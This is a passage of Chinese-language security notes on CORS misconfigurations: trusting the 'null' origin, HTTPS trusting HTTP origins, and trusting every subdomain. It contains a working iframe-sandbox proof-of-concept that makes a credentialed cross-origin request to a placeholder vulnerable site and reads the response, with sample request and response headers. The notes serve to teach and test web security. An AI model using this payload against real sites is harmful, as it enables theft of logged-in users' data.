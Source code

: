 
> 尽量避免使用正则表达式进行校验
> 案例： <https://www.freebuf.com/articles/web/158529.html>

##### 应用程序信任 Origin 头中指定 null 值

在此场景中，应用程序 HTTP 响应头“Access-Control-Allow-Origin”始终设置为“null”。当用户指定除 null 值以外的任意值时，应用程序将不会处理它，并在 HTTP 响应中保持“null”。很少有技巧允许攻击者执行攻击，并且可以使用 CORS 请求过滤受害者的数据。

开发者在网站上配置信任 `null` 源，用于调试代码（页面跳转、与本地 file 页面共享数据）

```
Access-Control-Allow-Origin: null
Access-Control-Allow-Credentials: true
```

攻击者可从任意域下通过 `iframe sandbox` 构造 `Origin` 为 `null` 的跨域请求

```html
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src='data:text/html,<script>
var xhr=new XMLHttpRequest();
xhr.onreadystatechange = function() {
if (xhr.readyState == XMLHttpRequest.DONE) {
        alert(xhr.responseText);
    }
}
xhr.open("GET", "http://www.vuln.com/a.php", true);
xhr.withCredentials = true;
xhr.send();</script>'>
</iframe>
```

请求包

```
GET /handler
Host: target.local
Origin: null
```

响应包

```
HTTP/1.1 200 OK
Acess-Control-Allow-Origin: null
Access-Control-Allow-Credentials: true
```

##### HTTPS 域信任 HTTP 域

> HTTPS 协议被设计用于在不安全的网络中进行安全通信。即使在中间人网络环境下，攻击者也应该无法读取 HTTPS 网站的内容。但是如果该 HTTPS 网站配置了 CORS 且信任 HTTP 域，那么中间人攻击者可以先劫持受信任 HTTP 域，然后通过这个域发送跨域请求到 HTTPS 网站，间接读取 HTTPS 域下的受保护内容。

![](_attachment/img/15640408241585.png)

##### 信任自身全部子域

为了防止某个子域上 XSS 漏洞的危害其他子域，浏览器设计了 `Cookie` 的 `httponly` 标志，用于限制 Javascript 读取 Cookie，因此某个子域 XSS 不能读取带有 `httponly` 标记的 `Cookie`，难以窃取其他重要子域上的敏感内容。 但是如果这个域配置了 CORS 且信任全部子域，那么攻击者可以利用其他任意子域上 XSS 漏洞，发送跨域请求到目标重要域网站，从而获取敏感内容。
